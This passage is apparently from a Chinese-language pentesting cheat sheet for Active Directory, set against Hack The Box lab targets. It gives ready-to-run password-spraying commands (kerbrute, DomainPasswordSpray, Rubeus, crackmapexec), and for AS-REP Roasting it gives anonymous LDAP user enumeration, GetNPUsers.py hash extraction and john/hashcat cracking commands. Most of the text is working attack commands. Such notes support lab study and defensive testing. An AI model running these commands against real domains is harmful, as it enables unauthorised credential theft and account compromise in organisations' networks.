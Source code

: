 kerbrute

```
../kerbrute_linux_amd64 passwordspray --dc 10.10.10.248 -d intelligence.htb /usr/share/wordlists/john.lst 'NewIntelligenceCorpUser9876'
```

pyKerbrute
DomainPassword Spray.ps1


```
https://github.com/dafthack/DomainPasswordSpray
powershell -exec bypass
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password 密码
```

.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>

小技巧：

通过crackmapexec来获取密码策略，2016下

```
crackmapexec smb ip --pass-pol -u '' -p ''

或者域内主机：
net accounts
```


## 3、AS-REP Roasting

适用场景：

目标用户账户设置不进行预身份验证，但是该选项默认不开启，也就是说这个攻击默认配置是无法进行的。同时需要在域内主机或者拥有域内用户账户的情况下进行。

**(有用户名，可以在域外直接打)**

利用工具：

Rubeus （自动搜索可攻击的账户，并保存为john可爆破的格式，在域内主机上执行）
ASREPRoast.ps1 (域内主机执行，自动搜索可攻击的账户，需要使用select进行筛选，john可爆破格式)
Adfind+impacket  GetNPUsers.py(可在域外执行，但是得有可用用户密码，使用Adfind筛选账户，使用GetNPUsers.py获取hash)


```
一、域外打法：
获取账户：
① 匿名LDAP登录使用：
ldapsearch -x -H ldap://10.10.10.161:389 -u '' -w '' -b "DC=htb,DC=local" "(&(objectCategory=person)(objectClass=user))" |grep dn
筛选AWK语句：

②有身份信息使用adfinder:(方便很多)
或者cme

获取john hash
python ../impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 -usersfile username.txt -format john htb.local/

有身份信息：
GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

破解
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

```